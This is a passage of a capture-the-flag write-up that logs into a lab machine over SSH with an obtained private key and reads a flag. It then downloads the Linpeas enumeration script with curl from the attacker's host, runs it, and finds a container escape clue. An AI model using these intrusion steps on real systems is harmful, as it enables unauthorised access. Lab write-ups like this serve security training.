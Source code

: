 ```bash
$ nano id_rsa
$ chmod 600 id_rsa 

$ ssh -i id_rsa catlover@10.10.151.249
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


52 updates can be applied immediately.
25 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Fri Jun  4 14:40:35 2021
root@7546fa2336d6:/root# ls
flag.txt
root@7546fa2336d6:/root# cat flag.txt 
<REDACTED>
```

- We could find the `flag.txt` here.
- But it says we are `root` user. Probably we are inside the docker container.

### Running Linpeas

- Transfer Linpeas to the victim machine using `curl`:

```bash
root@7546fa2336d6:/root# curl http://10.17.7.91:8000/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  318k  100  318k    0     0   277k      0  0:00:01  0:00:01 --:--:--  277k
```

- On running linpeas, we get the clue `/opt/clean`:

```bash
root@7546fa2336d6:/root# chmod +x linpeas.sh
root@7546fa2336d6:/root# ./linpeas.sh > linpeas.out

[..snip..]
[+] System stats
Filesystem      Size  Used Avail Use% Mounted on                                                                                                 
overlay          20G  7.3G   12G  40% /
tmpfs            64M     0   64M   0% /dev
tmpfs           240M     0  240M   0% /sys/fs/cgroup
shm              64M     0   64M   0% /dev/shm
/dev/xvda1       20G  7.3G   12G  40% /opt/clean
tmpfs           240M     0  240M   0% /proc/acpi
tmpfs           240M     0  240M   0% /proc/scsi
tmpfs           240M     0  240M   0% /sys/firmware
              total        used        free      shared  buff/cache   available
Mem:         490660      344948       17924       31480      127788      102468
Swap:             0           0           0
[..snip..]
```
